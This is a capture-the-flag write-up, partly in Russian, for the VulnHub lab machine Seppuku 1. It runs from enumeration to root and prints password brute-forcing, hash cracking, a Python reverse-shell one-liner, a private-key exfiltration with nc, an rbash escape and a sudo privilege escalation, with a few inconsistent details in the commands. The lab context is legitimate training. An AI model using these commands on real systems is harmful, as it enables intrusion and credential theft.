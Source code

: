 https://www.vulnhub.com/entry/seppuku-1,484/

enumeration

nmap -sV -sC -p- 192.168.225.149 --min-rate=5000
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open http nginx 1.14.2
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7601/tcp open http Apache httpd 2.4.38 ((Debian))

gobuster -w /root/Downloads/common.txt -x zip,php,txt,html,bac,mp4,docx,doc,sh,bak -e -u dir http://192.168.225.149
error: the server returns a status code that matches the provided options for non existing urls.

80-port

1.  burp-intruder
    перехватываю запрос, перебираю пароли
    admin:Football

2.  gobuster -w /root/Downloads/common.txt -x zip,php,txt,html,bac,mp4,docx,doc,sh,bak -e -u dir http://192.168.225.149 -U admin -P Football
    ....
    http://192.168.225.149/manager
    http://192.168.225.149/secret
    ....

    gobuster -w /root/Downloads/common.txt -x zip,php,txt,html,bac,mp4,docx,doc,sh,bak -e -u dir http://192.168.225.149/manager -U admin -P Football
    ....
    http://192.168.225.149/manager/html
    ....
    ![](img/seppuku_1_1.jpg)

    я так не смогла зайти с данными admin:Football, оставлю пока это

    gobuster -w /root/Downloads/common.txt -x zip,php,txt,html,bac,mp4,docx,doc,sh,bak -e -u dir http://192.168.225.149/secret -U admin -P Football
    http://192.168.225.149/secret/shadow.bak
    ....
    r@bbit-hole:$6$2/SxUdFc$Es9XfSBlKCG8fadku1zyt/HPTYz3Rj7m4bRzovjHxX4WmIMO7rz4j/auR/V.yCPy2MKBLBahX29Y3DWkR6oT..:18395:0:99999:7:::
    ....
    http://192.168.225.149/secret/passwd.bak
    ....
    rabbit-hole:x:1001:1001:,,,:/home/rabbit-hole:/bin/bash
    ....

3.  john --wordlist=/root/Downloads/rockyou.txt hash
    a1b2c3

        я попыталась зайти с этим на ssh, но не получилось
        эхэх тогда я и вспомнила про http://192.168.225.149/manager/html

4.  rabbit-hole:a1b2c3
    ![](img/seppuku_1_2.jpg)

                <on_own_machine> rlwrap nc -nlvp 1234
                <on_browser>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.225.128",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

22-port_www-data

1.  ls -al /var/www/html/secret
    ....
    password.lst
    ....

        ls -al /home
        seppuku
        samurai
        tanto

2.  hydra -L user.txt -P pass.txt ssh://192.168.225.149
    seppuku:eeyoree

3.             ls -al /var/www/html/keys
            private.bak
            private

    это id_rsa

        <on_own_machine> nc -lnvp 8000 > id_rsa
        <on_victim_machine> nc -w 3 192.168.225.128 9000 < /var/www/html/keys/private

        <on_own_machine> chmod 6000 id_rsa

    попробовав нескольких пользователей мы узнаем что это ключ от tanto
    <on_own_machine> ssh -i id_rsa tanto@192.168.225.128

22-port_seppuku

1.  sudo -l
    -rbash: sudo-l: command not found

    vi
    :set shell=/bin/sh
    :shell

    ![](img/seppuku_1_3.jpg)

2.            cat /home/seppuku/.passwd
            12345685213456!@!@A
    это должно быть пароль от samurai

22-port_samurai

1.  sudo -l
    (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/\*

хммм так как у нас есть доступ к tanto ничто не мешает создать нам файл bin и загрузить в него то, что поможет нам повысить привиллегии

22-port_tanto

1.  cd /home/tanto
    mkdir .cgi_bin
    cd .cgi_bin
    cat bin
    python3 -c "import os;os.system('/bin/bash');"

22-port_samurai

1.  sudo /home/tanto/.cgi_bin/bin /tmp/\*
    ![](img/seppuku_1_4.jpg)

/root/root.txt {SunCSR_Seppuku_2020_X}
/home/samurai/user.txt
